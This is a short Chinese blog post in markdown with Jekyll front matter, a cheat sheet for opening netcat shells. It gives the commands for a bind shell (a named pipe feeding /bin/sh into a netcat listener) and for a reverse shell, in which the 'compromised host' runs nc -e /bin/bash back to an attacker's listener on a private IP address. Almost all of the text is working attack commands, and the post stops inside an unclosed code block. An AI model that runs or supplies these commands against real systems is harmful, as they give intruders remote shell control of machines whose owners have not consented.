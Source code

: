 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:     nc正反向shell   # 标题
subtitle:   nc #副标题
date:       2019-10-24 				# 时间
author:     DYD 						# 作者
header-img: img/post-bg-2015.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - nc
    - shell
---
```


#### 正向shell

**首先创建fifo文件**
```shell
mkfifo /tmp/f
```

**监听本地1234端口**
```
cat /tmp/f | /bin/sh -i 2>&1 | nc -l 192.168.1.4 1234 > /tmp/f
```
**另一台机器去连**
```
nc 192.168.1.4 1234 
```

#### 反向shell

**攻击者主机监听端口**
```
nc -l 7777
```

**沦陷主机主动反向去连接攻击者主机**
```
nc -e /bin/bash 192.168.0.24 7777

